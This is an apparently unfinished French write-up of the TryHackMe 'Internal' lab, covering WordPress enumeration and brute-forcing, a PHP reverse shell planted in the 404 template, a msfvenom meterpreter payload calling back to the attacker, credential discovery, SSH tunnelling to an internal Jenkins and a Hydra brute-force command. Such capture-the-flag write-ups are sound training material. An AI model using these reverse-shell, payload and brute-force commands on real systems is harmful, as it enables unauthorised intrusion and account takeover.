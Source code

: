 # Room : Internal
IP :

je finirais le write-up plus tard...

# Enum / Reconnaissance
## Nmap
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-04 08:59 EDT
Nmap scan report for 10.10.116.71
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.10 seconds
```
## Gobuster
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 301) [Size: 311] [--> http://10.10.116.71/blog/]
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.116.71/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.116.71/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.116.71/phpmyadmin/]
/server-status        (Status: 403) [Size: 277]
```
En refaisant un gobuster sur la page /blog je trouve d'autre information utile:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 322] [--> http://10.10.116.71/blog/wp-content/]
/wp-includes          (Status: 301) [Size: 323] [--> http://10.10.116.71/blog/wp-includes/]
/wp-admin             (Status: 301) [Size: 320] [--> http://10.10.116.71/blog/wp-admin/]
```

En testant la page wp-admin avec un compte admin/admin, j'ai l'identifiant : admin
Celui-ci me retourne cette erreur : 
**Error: The password you entered for the username admin is incorrect. Lost your password?**
Il conforme que c'est bien **admin**

## WPScan
```
[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.116.71/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.116.71/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.116.71/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.116.71/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.116.71/wordpress/, Match: 'WordPress 5.4.2'
```

WordPress version 5.4.2

# Exploit Wordpress
Je trouve le compte admin du wordpress après l'avoir bruteforce

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / my2boys                               

On edite la page 404 et on y met un reverse shell php

On provoque une erreur 404 et le shell s'ouvre.

```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Internal]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.14.59.209] from (UNKNOWN) [10.10.116.71] 55198
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:29:46 up 33 min,  0 users,  load average: 0.00, 0.19, 0.26
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

Pour le fun on test de créer un shell en .elf avec msfvenom
puis on récupère un shell stable avec metasploit

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.14.59.209 LPORT=4445 -f elf > shell.elf
```
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.14.59.209:4445 
[*] Sending stage (1017704 bytes) to 10.10.116.71
[*] Meterpreter session 1 opened (10.14.59.209:4445 -> 10.10.116.71:57692) at 2023-09-04 09:33:19 -0400

meterpreter >
```

# Privesc to user !
Sur le serveur on trouve un fichier **wp-save.txt** dans le dossier **/opt** qui semble interessant.

```
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```
effectivement, il y a des cred dedans !
# Privesc to root !
Ce compte permet un acces via SSH avec la session de Aubreanna

1er flag présent sur le bureau :
```
THM{*************}
```

Linpeas trouve :

```
╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#pe-method-2                                                                      
                                                                                                                                                                                
[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin
```

Mais inutile.

Dans le home de Aubreanna il y a un fichier **jenkins.txt** qui contient :
```
Internal Jenkins service is running on 172.17.0.2:8080
```
Il y a bien quelques chose quand on curl dessus:

```
<html><head><meta http-equiv='refresh' content='1;url=/login?from=%2F'/><script>window.location.replace('/login?from=%2F');</script></head><body style='background-color:white; color:white;'>


Authentication required
<!--
You are authenticated as: anonymous
Groups that you are in:
  
Permission you need to have (but didn't): hudson.model.Hudson.Read
 ... which is implied by: hudson.security.Permission.GenericRead
 ... which is implied by: hudson.model.Hudson.Administer
-->

</body></html>
```
On va renvoyer le flux web vers moi via un SSH
```
ssh -L 4545:172.17.0.2:8080 aubreanna@10.10.116.71
```
Maintenant, depuis le navigateur, avec l'url **localhost:4545** on vois le résultat de **172.17.0.2:8080**.

Après une longue recherche infructueuse, je me laisse tenter par un brute force, sur la docs, il précise que l'identifiant par defaut est **admin**. On va bruteforce ce compte !

on va utiliser Hydra pour cela :

```
hydra -l admin -P /home/kali/Wordlist/rockyou.txt localhost -s 4545 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=PASS^&from=%2F&Submit=Sign+in:F=Invalid username or password" -I
```

